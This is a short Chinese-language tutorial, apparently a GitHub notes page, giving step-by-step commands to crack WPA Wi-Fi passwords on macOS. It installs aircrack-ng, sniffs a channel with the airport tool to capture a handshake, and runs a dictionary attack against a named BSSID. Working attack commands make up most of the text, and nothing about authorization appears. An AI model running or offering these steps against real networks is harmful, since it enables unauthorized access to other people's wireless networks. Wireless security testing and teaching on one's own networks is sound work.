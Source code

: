 > 两个系统的使用方式，密码设置真的要花点心思
# aircrack-ng(mac)

### 1.install

```bash
brew install aircrack-ng
# 可能需要 安装macport， 安装Xcode、依赖
# brew install autoconf automake libtool openssl shtool pkg-config hwloc pcre sqlite3 libpcap cmocka
```

### 2.ifconfig命令查看网卡信息

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/63c78cd1-3e8f-421b-b37b-01dcf6d4124f/t2.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/63c78cd1-3e8f-421b-b37b-01dcf6d4124f/t2.png)

### 3.airport查看网络

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/52134e93-5b62-46ba-8c7d-003aecb23a3f/t1.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/52134e93-5b62-46ba-8c7d-003aecb23a3f/t1.png)

### 4.抓包

# en0默认网卡，6监听频道

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/636dc95e-02d1-453e-bc9d-db4960c36c96/t3.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/636dc95e-02d1-453e-bc9d-db4960c36c96/t3.png)

当执行以上命令， 开始监听以后， **wifi**的图标会**发生改变**， 变成一个小眼睛一样的图标。监听久一点， 然后使用**ctrl+c**停止监听， 系统会把监听到的数据保存到本地， 如下图， 数据保存到**/tmp/airportSniffdaMCjH.cap** 文件中

### 5.查看cap文件

```bash
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap
```

![https://images2015.cnblogs.com/blog/497865/201701/497865-20170108231500300-323707699.png](https://images2015.cnblogs.com/blog/497865/201701/497865-20170108231500300-323707699.png)

如果要查询的路由列表的Encryption值为WPA(1 handshake) ，说明抓取成功， 否者跳到第六步，要重新抓取

### 6.air-crack开始破解

```bash
sudo aircrack-ng -w password.txt -b 30:91:76:9e:2c:69 /tmp/airportSniffdaMCjH.cap
# -w：指定字典文件；－b：指定要破解的wifi BSSID。
#-b后面的参数bc:46:99:df:6c:72指的是网卡的BSSID， 最后面的一个文件路径是上一步监听到的数据
```
